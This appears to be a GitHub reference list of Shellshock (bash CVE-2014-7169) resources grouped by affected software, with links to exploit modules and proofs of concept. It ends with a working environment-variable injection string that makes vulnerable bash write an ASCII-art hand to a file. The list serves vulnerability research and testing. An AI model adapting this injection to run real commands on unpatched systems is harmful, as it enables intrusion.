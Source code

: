 ## OSX
+ Priv Escalation via VMware Fusion - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/osx/local/vmware_bash_function_root.rb
+ Fix: http://support.apple.com/kb/DL1769

## SIP
+ SIP Proxies: https://github.com/zaf/sipshock


## Qmail
+ Detailed walkthrough - http://marc.info/?l=qmail&m=141183309314366&w=2
+ Tweet from @ymzkei5 - http://twitter.com/ymzkei5/status/515328039765307392
  + http://twitpic.com/ec3615
  + http://twitpic.com/ec361o

## Postfix
+ http://packetstormsecurity.com/files/128572/postfixsmtp-shellshock.txt

## FTP
+ Pure-FTPd: https://gist.github.com/jedisct1/88c62ee34e6fa92c31dc

## OpenVPN
+ OpenVPN - https://news.ycombinator.com/item?id=8385332
+ PoC Walkthrough by @fj33r - http://sprunge.us/BGjP

## Oracle
+ [Alert and list of affected Products](http://www.oracle.com/technetwork/topics/security/alert-cve-2014-7169-2303276.html)

## TMNT
+ https://twitter.com/SynAckPwn/status/514961810320293888/photo/1

## Hand
+ Via @DJManilaIce - http://pastie.org/9601055
```
user@localhost:~$ env X='() { (a)=>\' /bin/bash -c "shellshocker echo -e \"           __ __\n          /  V  \ \n     _    |  |   |\n    / \   |  |   |\n    |  |  |  |   |\n    |  |  |  |   |\n    |  |__|  |   |\n    |  |  \  |___|___\n    |  \   |/        \ \n    |   |  |______    |\n    |   |  |          |\n    |   \__'   /     |\n    \        \(     /\n     \             /\n      \|            |\n\""; cat shellshocker
/bin/bash: X: line 1: syntax error near unexpected token `='
/bin/bash: X: line 1: `'
/bin/bash: error importing function definition for `X'
           __ __
          /  V  \ 
     _    |  |   |
    / \   |  |   |
    |  |  |  |   |
    |  |  |  |   |
    |  |__|  |   |
    |  |  \  |___|___
    |  \   |/        \ 
    |   |  |______    |
    |   |  |          |
    |   \__'   /     |
    \        \(     /
     \             /
      \|            |
```